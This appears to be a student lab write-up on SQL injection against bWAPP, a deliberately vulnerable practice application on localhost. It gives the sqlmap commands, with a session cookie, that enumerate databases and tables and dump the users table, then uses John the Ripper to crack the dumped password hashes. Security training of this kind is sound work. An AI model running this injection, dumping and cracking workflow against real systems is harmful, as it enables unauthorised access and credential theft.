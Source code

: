 
* Store the url: `http://localhost:8025/sqli_2.php?movie=1&action=go`

* Use code for attack:
  ```
  python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --cookie="PHPSESSID=3jksnj690ba8735oii5lilch06; security_level=0" --dbs
  ```
* After running, it shows the database

  
  ![image](https://github.com/user-attachments/assets/25002be4-923b-411e-802c-af3517454406)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
* Use this code to see tables
  ```
  python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --cookie="PHPSESSID=3jksnj690ba8735oii5lilch06; security_level=0" -D bWAPP --tables
  ```
  ![image](https://github.com/user-attachments/assets/808aabaa-d61c-401b-ac19-d7a5e1720f4b)

* Use this code to see users information
  ```
  python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --cookie="PHPSESSID=3jksnj690ba8735oii5lilch06; security_level=0" -D bWAPP -T users --dump
  ```
  ![image](https://github.com/user-attachments/assets/098eb716-dce9-41e5-972f-ba38e8f7cff5)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:


Use john the ripper to crack, i stored the password in file name hashes.txt copied from 
``
C:\Users\Win 10\AppData\Local\Temp\sqlmap_whvad_g8940
``

![image](https://github.com/user-attachments/assets/4d9aa8f8-ca44-40f6-9c69-000d167bfdf5)



![image](https://github.com/user-attachments/assets/95f4e49d-6f1f-4ac4-baf1-0d1d18d130de)



after executing it


![image](https://github.com/user-attachments/assets/a770a87a-6a76-4f81-9fbd-998878e76972)

**Conclusion**: In this lab, we explored SQL injection vulnerabilities on the bWAPP application and used sqlmap to exploit them. We successfully extracted databases, tables, and user information. Then, we utilized John the Ripper to crack the hashed passwords of the users. This highlights the importance of securing web applications against common attacks such as SQL injections and strengthening password storage methods.
